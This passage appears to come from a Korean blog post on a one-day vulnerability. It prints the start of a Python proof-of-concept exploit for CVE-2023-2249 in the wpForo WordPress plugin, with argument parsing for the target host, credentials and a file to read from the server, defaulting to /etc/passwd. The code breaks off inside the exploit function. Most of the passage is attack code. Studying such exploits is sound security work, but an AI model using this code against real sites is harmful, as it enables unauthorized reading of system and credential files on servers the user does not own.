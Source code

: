     ![image.png](assets/posts/one-day/2024-12-22/image7.png)
    

위 과정을 기반으로 한 PoC 코드이다.

```python
'''
Origin : https://github.com/ixiacom/CVE-2023-2249
Author : Ayan Saha (https://github.com/Ayantaker/)
'''

import requests
from bs4 import BeautifulSoup
import argparse
from urllib.parse import urljoin
from rich import print as pprint
import warnings
from requests.packages.urllib3.exceptions import DependencyWarning

warnings.filterwarnings("ignore")

warnings.filterwarnings("ignore", category=DependencyWarning)

def parser():
    parser = argparse.ArgumentParser(description='Exploit for CVE-2023-2249 in wpForo Forum plugin for WordPress.')
    parser.add_argument('-i', '--ip', required=True,  help = "Host", type=str)
    parser.add_argument('-p', '--port', required=True, help = "Port", type=str)
    parser.add_argument('-l', '--location', help = 'Wordpress Site Base URL', default="", type=str)
    parser.add_argument('-u', '--user', required=True, action='store', type=str, help='Username')
    parser.add_argument('-q', '--password', required=True, action='store', type=str, help='Password')
    parser.add_argument('-f', '--file', action='store',default="/etc/passwd", type=str, help='Server file path to be fetched. Accepts remote location as well. Wont work if there is a comma in the path')
    args = parser.parse_args()
    return args

def exploit(host,port,sitelocation,user,password,file):
    if ',' in file:
```